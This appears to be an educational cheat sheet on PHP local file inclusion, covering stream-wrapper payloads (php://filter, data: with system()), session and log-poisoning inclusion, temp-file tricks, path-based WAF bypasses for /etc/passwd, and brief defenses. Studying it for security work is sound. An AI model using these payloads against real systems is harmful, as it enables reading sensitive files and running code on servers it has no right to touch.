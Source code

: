 # File Inclusion  
PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  
*  [LFI with PHP7 segfault](#lfi-with-php7-segmentfault)  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  

🍊Include Session in Hitcon CTF 2018 [ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html):  
`session.upload_progress.name` ➡️ create session file ➡️ filename: `sess_{PHPSESSID}`  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/burp_multipart.png)
As long as `PHP_SESSION_UPLOAD_PROGRESS` in POST of multipart/form-data and `session.upload_progress.enabled = On` (fortunately default is on), PHP session files would be created no matter `session.auto_start = 0`! Then to deal with the problem of `session.upload_progress.cleanup = On`, we need race condition.  
[hitcon 2018受虐笔记一:one-line-php-challenge 学习 by wonderkun](http://wonderkun.cc/index.html/?cat=1)  
[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  

4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include temp file (lfi with phpinfo)  
Just like the picture in [LFI with PHP7 segfault](#lfi-with-php7-segmentfault), PHP handles `enctype="multipart/form-data"` with following steps. When output from PHP script is larger than output buffer setting (which is always 4096), the partial content would change to `Transfer-Encoding: chunked`. Therefore, what we need to do is to delay the execution time of PHP script. The reason for using phpinfo is getting the tmp file name from `$_FILE`.  

6. include `/proc/self/environ`: php requires to run as CGI  

7. include uploaded file: need uploading functionality on website itself   

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# LFI with PHP7 SegmentFault  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/php_tmp.PNG)  
In the environment of `ubuntu16+php7.1`:  
```
php://filter/string.strip_tags/resource=xxx
```  
will cause to segmentation fault. Therefore, the tmp file cannot be removed because PHP is crashed, then we can use bruteforce to include the tmp file. With analysis, the bug of PHP is due to the inference of null pointer.  
[Script by @Wang YiHang](https://www.jianshu.com/p/dfd049924258)

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)
